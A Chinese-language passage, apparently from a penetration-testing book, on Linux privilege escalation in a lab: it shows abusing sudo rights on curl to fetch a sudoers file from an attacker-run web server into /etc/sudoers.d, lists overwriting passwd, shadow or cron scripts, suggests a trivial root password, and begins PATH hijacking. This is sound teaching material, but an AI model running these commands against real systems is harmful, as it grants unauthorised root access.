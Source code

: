 ### 下载恶意的 sudoers 文件。

在前一部分中，你可能已经注意到我们还拥有对 curl 的 sudo 访问权限，用于从 Web 服务器读取资源。你可能会问，拥有对基于命令行的 HTTP 客户端的 sudo 访问权限，我们能做什么呢？嗯，很多事情！

如果你查看 curl 手册页面，你会看到它提供了 -o（输出）标志，用于将内容写入文件或目录。这意味着你可以通过向网站发出 GET 请求并使用 -o 标志将输出重定向到文件来下载文件。

为了利用这种行为，我们可以设置一个远程 Web 服务器，提供一个配置文件；如果我们能以某种方式下载这个文件并覆盖现有文件，就可以提升我们的权限或获得新的访问权限。让我们再次利用 *p-jumpbox-01*（176.16.10.13）从备份用户提升到 *root* 用户。以下是我们可以采取的几个方向：

+   提供修改过的 */etc/passwd* 和 */etc/shadow* 文件，这些文件会改变 *root* 用户的密码。

+   提供修改过的 */etc/sudoers* 文件，使其授予备份用户 sudo 权限。

+   在 */etc/sudoers.d* 目录中插入新的 sudo 配置。

+   提供一个 cron-job shell 脚本，它以系统（root）身份运行，并负责代表我们执行特权操作。

我们将选择第三个选项：从 Kali 机器提供一个自定义的 *sudoers* 文件，并将其插入到目标的 */etc/sudoers.d* 目录。

首先，从本书的 GitHub 仓库获取新的 sudo 配置文件*add-sudo-to-user*，并将其放置在文件系统中的某个位置，例如 Kali 的主目录。接下来，打开终端并导航到下载文件所在的目录。然后运行以下命令，在 8080 端口启动一个 Web 服务器：

```
$ **python3 -m http.server 8080**
```

接下来，作为*p-jumpbox-01*备份用户，运行以下命令从 Kali 下载文件。Kali 的实验室 IP 地址应该是 172.16.10.1：

```
$ **sudo curl -s http://172.16.10.1:8080/add-sudo-to-user -o /etc/sudoers.d/add-sudo-to-user**
```

这个 curl 命令使用-s 标志（静默模式）来抑制输出，比如下载进度条。然后我们向 Kali 机器发起 GET 请求来获取*add-sudo-to-user*。-o（输出）标志指向一个文件系统目标位置，GET 请求的输出将被保存到该位置。在这种情况下，我们使用*/etc/sudoers.d*目录。使用 ls 命令列出*/etc/sudoers.d*中的文件来确认文件是否已成功下载。然后运行 sudo -l 命令，查看你现在是否拥有完整的 sudo 权限。

请记住，手动修改*sudoers*文件是非常危险的。任何错误可能会影响你将来重新获得 sudo 访问权限的能力，因此我们强烈建议使用像 visudo 这样的专用 sudo 修改工具来修改 sudo 配置。该工具可以及早捕捉语法错误，避免你被锁定。

在成功攻陷 root 账户后，我们建议将账户密码设置为*passwd*，以便稍后能够轻松切换到该账户。

## 通过 PATH 配置错误劫持可执行文件

PATH 环境变量是一个以冒号分隔的目录列表，shell 默认在这些目录中搜索可执行文件。例如，当你输入 touch 命令创建一个文件时，shell 会在 PATH 中搜索以定位二进制文件。

在任何被攻陷的机器上运行以下命令查看其当前 PATH 值：

```
$ **echo $PATH**

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin 
```

为了尝试提升权限，我们可以修改 PATH 变量以包含额外的路径。例如，假设系统有一个专门的自定义脚本目录*/data/scripts*。修改 PATH 目录以包含这个脚本目录非常简单：

```
$ **PATH=$PATH:/data/scripts**
$ **echo $PATH**

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/data/scripts 
```
